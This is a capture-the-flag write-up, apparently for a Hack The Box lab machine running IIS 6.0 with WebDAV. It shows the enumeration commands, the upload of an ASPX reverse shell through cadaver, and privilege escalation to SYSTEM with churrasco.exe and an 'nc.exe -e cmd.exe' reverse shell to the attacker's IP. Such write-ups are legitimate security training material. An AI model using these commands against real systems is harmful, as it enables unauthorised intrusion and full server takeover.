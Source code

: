 # IP Address: 10.10.10.15

# Enumeration

```
┌──(code㉿kali)-[~]
└─$ nmapAutomator.sh -H 10.10.10.15 -t all

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0

┌──(code㉿kali)-[~]
└─$ sudo nmap -p 80 -vv --script=http-frontpage* 10.10.10.15

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 127
| http-frontpage-login: 
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|       
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html

```

### HTTP
The server is running Microsoft Frontpage version 4.0 which has misconfigured permissions. 

We enumerate file permissions using DavTest.
```
┌──(code㉿kali)-[~]
└─$ davtest -move -sendbd auto -url http://10.10.10.15
********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_o27RPgyrd
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.pl
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.txt
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.php
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.shtml
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.asp
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.aspx
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.jsp
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.html
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.cgi
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.jhtml
MOVE/PUT File: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.cfm
Executes: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.txt
Executes: http://10.10.10.15/DavTestDir_o27RPgyrd/davtest_o27RPgyrd.html
```


# Exploitation

We are able to create directories and upload files to it. Now, we upload an ASPX reverse shell, browse to the page and catch the shell with netcat. 

```
┌──(code㉿kali)-[~]
└─$ cadaver 10.10.10.15
dav:/> ls
Listing collection `/': succeeded.
Coll:   DavTestDir_o27RPgyrd                   0  Nov 21 17:37
Coll:   _private                               0  Apr 12  2017
Coll:   _vti_bin                               0  Apr 12  2017
Coll:   _vti_cnf                               0  Apr 12  2017
Coll:   _vti_log                               0  Apr 12  2017
Coll:   _vti_pvt                               0  Apr 12  2017
Coll:   _vti_script                            0  Apr 12  2017
Coll:   _vti_txt                               0  Apr 12  2017
Coll:   aspnet_client                          0  Apr 12  2017
Coll:   images                                 0  Apr 12  2017
        _vti_inf.html                       1754  Apr 12  2017
        iisstart.htm                        1433  Feb 21  2003
        pagerror.gif                        2806  Feb 21  2003
        postinfo.html                       2440  Apr 12  2017
dav:/> put shell.txt 
Uploading shell.txt to `/shell.txt':
Progress: [=============================>] 100.0% of 2718 bytes succeeded.
dav:/> copy shell.txt shell.aspx
Copying `/shell.txt' to `/shell.aspx':  succeeded.
```

```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4488                                                                                   
listening on [any] 4488 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.15] 1033
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```


# Privilege Escalation
Get the systeminfo and run windows-exploit-suggester against it. Tried a few exploits but nothing worked. Finally found a program written to exploit a WMI Service Isolation vulnerability in Windows Server 2003 SP2. 

Download churrasco.exe from here: https://github.com/Re4son/Churrasco and rename it to churrasco.txt

```
┌──(code㉿kali)-[~]
└─$ wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe -o churrasco.txt

```

Upload it along with nc.exe (temporarily renamed nc.txt since we can't upload files with .exe extension) to the target using cadaver. Change .txt to .exe
```
dav:/> put churrasco.txt 
Uploading churrasco.txt to `/churrasco.txt':
Progress: [=============================>] 100.0% of 31232 bytes succeeded.
dav:/> move churrasco.txt churrasco.exe
Moving `/churrasco.txt' to `/churrasco.exe':  succeeded.
dav:/> put nc.txt 
Uploading nc.txt to `/nc.txt':
Progress: [=============================>] 100.0% of 59392 bytes succeeded.
dav:/> move nc.txt nc.exe
Moving `/nc.txt' to `/nc.exe':  succeeded.
```

On the target shell we caught, run churrasco.exe
```
C:\Inetpub\wwwroot>churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.17 4499"
churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.17 4499"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

```
┌──(code㉿kali)-[~]
└─$ nc -nlvp 4499
listening on [any] 4499 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.15] 1052
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system

```


# Proof
user.txt

![[Pasted image 20211121195349.png]]


root.txt

![[Pasted image 20211121195444.png]]